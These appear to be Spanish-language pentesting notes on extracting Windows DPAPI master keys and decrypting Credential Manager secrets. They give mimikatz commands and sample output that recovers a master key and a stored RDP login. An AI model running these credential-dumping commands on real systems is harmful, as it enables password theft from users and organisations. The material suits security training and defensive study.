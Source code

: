 # CREDENTIAL ACCESS (WINDOWS LOCAL):

## DPAPI:
Es el "protocolo" usado por microsoft en base a una "mastek key" con la que se puedan descrifrar y cifrar datos por los desarrolladores, por ejemplo los navegadores pueden cifrar las contraseñas en base a DPAPI, un dato importante es que la Master Key puede variar en base a la contraseña del usuario.

### Get Master key:
Lo más comun es que con mimikatz lo podamos conseguir, la key usualmente esta almacenada en:

- C:\Users\USER\AppData\Roaming\Microsoft\Protect\
- C:\Users\USER\AppData\Local\Microsoft\Protect

NOTA:
- Roaming (AppData\Roaming\Protect): Los datos y claves almacenados aquí se pueden sincronizar entre diferentes dispositivos cuando el usuario tiene un perfil móvil, permitiendo que los datos protegidos sean accesibles en cualquier dispositivo del dominio.
- Local (AppData\Local\Protect): Los datos y claves se limitan al dispositivo donde fueron generados, por lo que solo serán accesibles en esa máquina específica.

Dentro de estas carpetas encontraremos otra carpeta con un SID, donde contiene el fichero con una denominación szGuid.

La primer tarea es justamente encontrar la ruta completa, que debemos usar cmd al ser ficheros ocultos.
```
> dir /a:h C:\Users\USER\AppData\Roaming\Microsoft\Protect\<S-1-5-21-3097112084-1706841912-3560390538-1000>\
> dir /a:h C:\Users\USER\AppData\Roaming\Microsoft\Protect\<S-1-5-21-3097112084-1706841912-3560390538-1000>\
```

El valor del SID variara entre dispositivos.

Obtenida la ruta completa podemos extraer el master key.
```
mimikatz> dpapi::masterkey /in:"C:\Users\USER\AppData\Roaming\Microsoft\Protect\S-1-5-21-3097112084-1706841912-3560390538-1000\313fbe20-e5fd-2609-33d3-6b085b58e987" /sid:S-1-5-21-3097112084-1706841912-3560390538-1000 /password:contraseñaejemplo /protected
(...)
[masterkey] with password: contraseñaejemplo (protected user)
  key : cc1f3539ee123435cd425b87b3adb9ce5fe043ed7d7d3892a88093879fa348f1e0d0102eff9c19ca32a7f001450e7417353258abf48deeccac78ddc390d28be8
  sha1: dc1038(...)
```

Despues ya teniendo la masterkey podemos descrifrar los datos aparte, o con el mismo mimikatz, podemos buscar las credenciales guardadas en el windows "Credential Manager" donde se almacenan por ejemplo las contraseñas de RDP.
```
> dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\Credentials\98A34CA2D99C1CEBB9365414C74839F1 
(...)
 TargetName     : Domain:target=testin.home
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : prueba
  CredentialBlob : prueba
  Attributes     : 0
> dpapi::cred /in:C:\Users\USER\AppData\Roaming\Microsoft\Credentials\98A34CA2D99C1CEBB9365414C74839F1 /masterkey:cc1f3539ee123435cd425b87b3adb9ce5fe043ed7d7d3892a88093879fa348f1e0d0102eff9c19ca32a7f001450e7417353258abf48deeccac78ddc390d28be8
```
